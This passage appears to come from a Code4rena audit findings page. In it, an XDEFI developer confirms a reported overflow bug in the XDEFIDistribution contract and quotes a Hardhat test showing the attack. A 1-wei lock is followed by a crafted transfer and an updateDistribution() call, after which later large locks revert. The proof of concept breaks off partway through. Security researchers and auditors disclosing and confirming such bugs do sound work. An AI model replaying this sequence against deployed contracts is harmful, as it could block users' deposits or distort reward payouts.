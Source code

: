 **[deluca-mike (XDEFI) confirmed](https://github.com/code-423n4/2022-01-xdefi-findings/issues/156#issuecomment-1008255566):**
> This is a great catch! I just tested it:
> 
> ```js
> const { expect } = require("chai");
> const { ethers } = require("hardhat");
> 
> const totalSupply = '240000000000000000000000000';
> 
> const toWei = (value, add = 0, sub = 0) => (BigInt(value) * 1_000_000_000_000_000_000n + BigInt(add) - BigInt(sub)).toString();
> 
> describe("XDEFIDistribution", () => {
>     it("Can overflow _pointsPerUnit", async () => {
>         const [god, alice, bob] = await ethers.getSigners();
> 
>         const XDEFI = await (await (await ethers.getContractFactory("XDEFI")).deploy("XDEFI", "XDEFI", totalSupply)).deployed();
>         const XDEFIDistribution = await (await (await ethers.getContractFactory("XDEFIDistribution")).deploy(XDEFI.address, "https://www.xdefi.io/nfts/", 0)).deployed();
> 
>         // Give each account 2,000,000 XDEFI
>         await (await XDEFI.transfer(alice.address, toWei(2_000_000))).wait();
>         await (await XDEFI.transfer(bob.address, toWei(2_000_000))).wait();
> 
>         // bonusMultiplierOf[30 days] = 100
>         await (await XDEFIDistribution.setLockPeriods([2592000], [100])).wait();
> 
>         // 1. Alice lock() 1 wei of XDEFI for 30 days as the first user of the contract. Got 1 units, and totalUnits now is 1;
>         await (await XDEFI.connect(alice).approve(XDEFIDistribution.address, 1)).wait();
>         await (await XDEFIDistribution.connect(alice).lock(1, 2592000, alice.address)).wait();
>         expect(await XDEFIDistribution.balanceOf(alice.address)).to.equal('1');
>         const nft1 = (await XDEFIDistribution.tokenOfOwnerByIndex(alice.address, 0)).toString();
>         expect((await XDEFIDistribution.positionOf(nft1)).units).to.equal(1);
> 
>         // 2. Alice sends 170141183460469 wei of XDEFI to the contract and calls updateDistribution()
>         await (await XDEFI.connect(alice).transfer(XDEFIDistribution.address, 170141183460469)).wait();
>         await (await XDEFIDistribution.connect(alice).updateDistribution()).wait();
> 
>         // 3. Bob tries to lock() 1,100,000 * 1e18 of XDEFI for 30 days, the tx will fail, as _pointsPerUnit * units overflows
>         await (await XDEFI.connect(bob).approve(XDEFIDistribution.address, toWei(1_100_000))).wait();
>         await expect(XDEFIDistribution.connect(bob).lock(toWei(1_100_000), 2592000, bob.address)).to.be.revertedWith("_toInt256Safe failed");
> 
>         // 4. Bob lock() 1,000,000 * 1e18 of XDEFI for 30 days
>         await (await XDEFI.connect(bob).approve(XDEFIDistribution.address, toWei(1_000_000))).wait();
>         await (await XDEFIDistribution.connect(bob).lock(toWei(1_000_000), 2592000, bob.address)).wait();
>         expect(await XDEFIDistribution.balanceOf(bob.address)).to.equal('1');
>         const nft2 = (await XDEFIDistribution.tokenOfOwnerByIndex(bob.address, 0)).toString();
>         expect((await XDEFIDistribution.positionOf(nft2)).units).to.equal(toWei(1_000_000));
> 
>         // 5. The rewarder sends 250,000 * 1e18 of XDEFI to the contract and calls updateDistribution()
>         await (await XDEFI.transfer(XDEFIDistribution.address, toWei(250_000))).wait();
>         await (await XDEFIDistribution.updateDistribution()).wait();
> 